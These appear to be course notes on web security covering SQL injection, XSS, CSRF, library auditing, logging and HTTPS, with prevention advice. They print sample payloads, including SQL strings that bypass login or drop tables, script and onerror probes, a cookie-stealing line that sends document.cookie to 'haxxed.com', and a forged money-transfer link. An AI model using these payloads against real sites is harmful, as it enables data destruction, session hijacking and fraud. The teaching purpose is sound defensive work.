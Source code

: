 ### Star of Security

![star](../img/star.png)

### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies